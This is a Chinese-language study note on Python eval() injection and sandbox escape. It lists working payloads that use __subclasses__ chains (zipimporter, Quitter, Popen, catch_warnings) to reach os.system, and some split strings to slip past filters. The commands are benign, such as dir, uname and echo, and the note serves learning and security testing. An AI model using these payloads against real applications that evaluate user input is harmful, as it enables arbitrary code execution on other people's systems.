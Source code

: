 # eval

**参考：**

 - https://www.cnblogs.com/iamstudy/articles/python_eval_and_bypass_sandbox_study.html
 - https://blog.51cto.com/xpleaf/1764849

## builtin与builtins的区别与关系
python3  
	python3中只有__builtins__了

python2  

- 在Python中并没有__builtins__这个模块，只有__builtin__模块，而__builtins__模块只是在启动Python解释器时，解释器为我们自动创建的一个到__builtin__模块的引用
- 在主模块__main__中,两者完全一样
- 非主模块中，模块__builtins__其实是对__builtin__的__dict__模块的引用

## 利用
原型：eval(expression[, globals[, locals]])
globals为字典形式,locals为任何映射对象,分别是全局和局部命名空间，如果传入globals字典缺失__builtins__的时候，当前的全局命名空间将作为globals参数输入并且在表达式之前被解析，locals默认和globals相同，如果两个都省略掉话，表达式将在eval()调用的环境里面执行

1. 最简单的
```python
eval(__import__('os').system('dir'))
```

2. 置空无效
本地测试没有成功....  
```python
env = {}
env["locals"]   = None
env["globals"]  = None
env["__name__"] = None
env["__file__"] = None
env["__builtins__"] = None
 
eval(users_str, env)
```

3. 调用egg  
（python2）
```python
# http://pypi.python.org/packages/2.5/C/ConfigObj/configobj-4.4.0-py2.5.egg
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == "zipimporter"][0]("configobj-4.4.0-py2.5.egg").load_module("configobj").os.system("uname")
```

4. 使程序退出  
（python2）
```python
eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__=='Quitter'][0](0)()", {'__builtins__':None})
```

5. 事先导入过一些模块
（python2，python3）
```python
import subprocess
eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'Popen'][0](['ping','-c','1','127.0.0.1'])", {'__builtins__':None ,'__builtin__':None})
```

6. 寻找含有os模块的类
（python2）
```python
[x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```